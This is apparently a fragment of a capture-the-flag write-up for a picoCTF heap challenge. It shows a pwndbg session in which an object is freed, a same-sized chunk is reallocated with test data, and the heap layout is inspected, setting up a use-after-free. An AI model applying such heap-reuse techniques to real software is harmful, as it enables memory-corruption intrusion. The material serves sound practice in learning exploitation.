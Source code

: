 <br />

```yaml
$ gdb chall -q
...
pwndbg> r
Starting program: /home/kali/pico/chall
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: AAAAAAAA

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: ^C
Program received signal SIGINT, Interrupt.

pwndbg> heap
Allocated chunk | PREV_INUSE  
Addr: 0x405000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x405290
Size: 0x410 (with flag bits: 0x411)

Allocated chunk | PREV_INUSE
Addr: 0x4056a0
Size: 0x30 (with flag bits: 0x31)

Allocated chunk | PREV_INUSE
Addr: 0x4056d0
Size: 0x410 (with flag bits: 0x411)

Top chunk | PREV_INUSE
Addr: 0x405ae0
Size: 0x20520 (with flag bits: 0x20521)
```